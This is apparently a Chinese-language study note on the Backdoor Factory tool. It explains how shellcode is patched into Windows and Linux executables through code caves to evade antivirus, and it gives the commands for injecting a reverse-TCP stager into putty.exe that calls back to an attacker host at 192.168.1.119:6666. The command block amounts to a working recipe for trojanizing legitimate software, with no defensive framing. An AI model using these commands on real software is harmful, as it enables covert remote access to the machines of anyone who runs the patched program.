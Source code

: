 
# Backdoor-factory


* 描述
> * Patch
>   - 通过替换EXE、DLL、注册表等方法修复系统漏洞或问题的方法
>   - BDF：向二进制文件中增加或者删除代码内容
>       - 某些受保护的二进制程序无法patch
>       - 存在一定概率文件会被patch坏掉
> * 后门工厂
>   - 适用于windows PE x32/x64 和 Linux ELF x32/x64 ( OSX )
>   - 支持msf payload 、自定义payload
> * 将shellcode代码patch进模板文件，躲避AV检查
> * Python 语言编写

* 原理
> * CTP 方法
>   - 增加新的代码段 section，与MSF的 -k 方法类似
>   - 使用现有的代码裂缝/洞（code  cave）存放 shellcode
> * 代码洞
>   - 二进制文件中超过两个字节的连续 x00 区域（代码片段间区域）
>   - 根据统计判断代码洞是编译器在进行编译时造成的，不同的编译器造成的代码洞的大小不同
> * 单个代码洞大小不足以存放完整的shellcode
>   - 多代码洞跳转（非顺序执行）
>       - 初期免杀率可达100%  
>       - 结合msf的stager方法  
> * Patch 选项
>   - 附加代码段
>   - 单代码洞注入
>   - 多代码洞注入

* 使用
``` 
// shell
// 检查二进制文件是否支持代码注入
backdoor-factory -f putty.exe –S
// 显示可用payload
backdoor-factory -f putty.exe -s show
iat_reverse_tcp_stager_threaded
// 查看cave大小
ackdoor-factory -f putty.exe -c -l

// 单代码洞注入
backdoor-factory -f putty.exe -s iat_reverse_tcp_stager_threaded -H 192.168.1.119  -P 6666
// 多代码洞注入   -J
backdoor-factory -f putty.exe -s iat_reverse_tcp_stager_threaded -H 192.168.1.119  -P 6666  –J
// 新建代码洞注入 -a
backdoor-factory -f putty.exe -s iat_reverse_tcp_stager_threaded -a -H  192.168.1.119 -P 6666
```

* 与 veil-evasion 集成
